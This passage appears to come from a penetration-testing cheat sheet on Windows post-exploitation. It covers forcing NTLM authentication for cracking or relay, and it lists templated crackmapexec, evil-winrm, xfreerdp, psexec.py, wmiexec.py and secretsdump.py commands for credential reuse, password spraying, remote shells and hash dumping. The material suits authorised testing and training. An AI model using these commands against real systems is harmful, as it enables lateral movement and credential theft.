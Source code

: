 ## NetNTLMcrackingPostExp

What is the point of forcing an NTLM authentication when we already have a shell on the compromised machine?

Assume we have a shell with a non-privileged user whose password we do not know. Without administrator privileges we cannot use *mimikatz* to extract hashes. Forcing an NTLM authentication, in this context, **allows us to have the opportunity to know its password** through cracking.

For details please refer to [Net-NTLM cracking](#NetNTLMcracking).
## NetNTLMrelayingPostExp

What is the point of forcing an NTLM authentication and doing *Net-NTLM relay* when we already have a shell on the compromised machine?

Assume we have a shell with a non-privileged user whose password we do not know on the MACHINE1 machine. Without administrator privileges we cannot use *mimikatz* to extract hashes. Moreover, its Net-NTLM hash is not "crackable." Assume, also, that the unprivileged user on MACHINE1 is instead a *local admin* on MACHINE2.

For details please refer to [Net-NTLM relaying](#NetNTLMrelaying).

## PassThePassword

**Requirements**:
- username and password of local account and/or domain
- check open ports at the target: LDAP (389/TCP), SMB (445/TCP), MSSQL (1433/TCP), RDP (3389/TCP), WinRM (5985/TCP)

**Use case**:
- reuse of accounts in different machines

Command list:
- **local account reuse**
	- `crackmapexec ldap/smb/mssql/rdp/winrm <IP TARGET> -u <USERNAME> -p <PASSWORD> --local-auth --continue-on-success`
- **domain account reuse**
	- avoid `STATUS_ACCOUNT_LOCKED_OUT`: testing credentials to a single host and then *spraying* to all of them
	- `crackmapexec ldap/smb/mssql/rdp/winrm <IP TARGET> -d <DOMAIN NAME> -u <USERNAME> -p <PASSWORD> --continue-on-success`
- **evil-WinRM** (*WinRM + "Remote Management Users"*)
	- `evil-winrm -i <IP TARGET> -u <USERNAME> -p <PASSWORD>`
- **RDP** (*RDP* + *Remote Desktop Users*)
	- `xfreerdp +clipboard /v:<IP TARGET> /u:<USERNAME> '/p:<PASSWORD>'`
- **psexec.py**
	- `python3 psexec.py <DOMAIN NAME>/'<USERNAME>:<PASSWORD>'@<IP TARGET>`
- **wmiexec.py** (*shell with specific user - does not make elevation to SYSTEM*)
	- `python3 wmiexec.py <DOMAIN NAME>/'<USERNAME>:<PASSWORD>'@<IP TARGET>`
- **secretsdump.py (hash and secrets dump)**
	- `python3 secretsdump.py <DOMAIN NAME>/'<USERNAME>:<PASSWORD>'@<IP TARGET>`

## PasswordSpraying
